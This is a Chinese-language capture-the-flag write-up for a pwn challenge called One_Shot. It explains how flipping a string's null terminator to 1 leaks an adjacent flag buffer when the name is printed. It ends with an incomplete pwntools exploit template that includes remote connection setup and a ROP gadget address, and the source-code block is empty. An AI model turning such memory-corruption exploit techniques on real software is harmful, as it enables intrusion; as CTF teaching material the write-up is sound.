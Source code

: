 ```c
```

首先这题打开`/flag`文件并且把内容读到`flag`变量中，然后读一个32字节的字符串到`name`变量中，还给了一个**任意内存置1**的漏洞，最后打印`name`。

我们知道，在C语言中，字符串以末尾1字节的`\x00`作为结束的标志。如果打印字符串的函数没有遇到`\x00`字节，则会一直打印字符。

`name`和`flag`都定义在`bss`段，而且`flag`紧紧按着`name`：

```assembly
.bss:00000000006010C0 name            db    ? 
.bss:00000000006010E0 flag            db    ? 
```

因此利用**任意内存置1**漏洞，把`name`末尾的`\x00`置1，在程序打印`name`时，就会顺便把`flag`打印出来。

### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './One_Shot'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
prdi = 0x00000000004008a3 # pop rdi ; ret

# elf, libc

# rop1

```